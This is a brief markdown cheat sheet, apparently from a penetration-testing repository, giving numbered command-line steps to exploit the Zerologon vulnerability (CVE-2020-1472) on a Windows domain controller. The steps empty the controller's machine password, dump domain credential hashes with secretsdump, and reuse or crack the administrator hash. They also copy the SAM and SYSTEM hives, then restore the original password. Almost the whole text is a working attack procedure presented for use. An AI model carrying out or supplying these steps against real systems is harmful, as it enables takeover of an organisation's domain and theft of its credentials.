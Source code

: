 ## CVE-2020-1472 Zerologon

#### As the name implies, if the machine is vulnerable to Zerologon, it can reset the administrator credentials to an empty string, then attempt to dump the hashes via secretsdump without having to use a password.

### Tools: Impacket-secretsdump, https://github.com/risksense/zerologon, https://github.com/SecuraBV/CVE-2020-1472

#### 1) python3 set_empty_pw.py NETBIOS_NAME DC_IP 

#### 2) If attempt was successful, then: impacket-secretsdump -just-dc -no-pass DOMAIN.LOCAL/NETBIOS_NAME\$DC_IP

#### 3) When you dump the domain admin hash, you can use it to Pass-the-Hash via evil-winrm or attempt to crack it offline with hashcat

#### 4) At login, copy the SAM and SYSTEM hives to your local machine, then dump them offline (Alternative to secretsdump)

#### 5) python3 reinstall_original_pw.py NETBIOS_NAME DC_IP ORIGINAL_NTLM_ADMIN_HASH (Reinstalls the original password that the admin had to prevent permanent damage on the machine)
